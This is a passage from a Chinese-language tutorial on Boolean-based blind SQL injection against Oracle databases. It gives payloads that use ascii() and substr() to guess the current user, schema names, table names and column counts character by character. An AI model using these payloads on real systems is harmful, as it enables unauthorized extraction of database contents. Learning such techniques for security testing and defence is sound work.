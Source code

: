 - ascii()
- substr()
- decode(a,b,c,d) 当a=b 返回c，否则返回d
- instr(a,b) 如果b字符串存在a 中，返回b在a中存在的位置，否则返回0
#### 布尔盲注手法
**获取当前数据库的用户名**
```sql
select * from xxx_table where xxx='xxx' and ascii(substr((select user from dual),1,1))=83--+
```
ASCII('S') = 83
![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_48_BSKlDcyW.png)
依次对字符串求解，当截取到最后一位（+1）时会substr()函数会返回空字符串，这里用is null 可以判断是否为空，当is null 是第7位成立，那么字符串长度为6位
ASCII('M')=77
![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_48_TcIH7lvd.png)
![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_49_F9wv6XR5.png)

**获取所有的数据库**
前面在联合查询处说了，Oracle 使用Schema 来控制不同用户的数据，所以当前数据库为用户名`SYSTEM`(Oracle 对大小写敏感)
在查询所有的数据库时，不能像MySQL那样使用limit，所以在Oracle中需要使用子查询来写SQL语句，类似如下
```sql
select owner from (select t.* ,rownum as no from (select distinct owner from all_tables)t) where no = 1
```
以第一个数据库为例子，首先确定库的长度
```sql
select length(owner) from (select t.* ,rownum as no from (select distinct owner from all_tables)t) where no = 1
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_49_t5rDPoZ8.png)
然后配合使用`ascii()`，`substr()`函数来对字符进行依次猜解
ascii('A') = 65
![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_50_P2cjbz9J.png)
依次猜解，可获取库的名称，由于没有limit，在子查询中，distinct 去重owner会消耗过多的时间，所以尽量使用手工注入，且要获取其他库的数据也没有太大的必要
**获取当前数据库的表**
```sql
-- 首先获取当前数据库存在多少表
select count(table_name) from all_tables where owner = 'SYSTEM'
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_50_G2O7aokR.png)
```sql
-- 接着使用子查询，一个一个求解
select table_name from (select t.table_name,rownum as no from (select table_name from all_tables where owner='SYSTEM')t) where no = 1
```
如猜解USERS_YFRUVP表
```sql
-- 
select table_name from (select t.table_name,rownum as no from (select table_name from all_tables where owner='SYSTEM' and table_name not like '%$%')t)where no = 4
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_51_49lgmhcJ.png)
中间省略...
![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_51_sX4YBShL.png)
![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_51_R3wzIqrE.png)
**获取某表中的字段**
以USERS_YFRUVP表为例
```sql
-- 求字段个数
select count(*) from all_tab_columns where table_name = 'USERS_YFRUVP'
```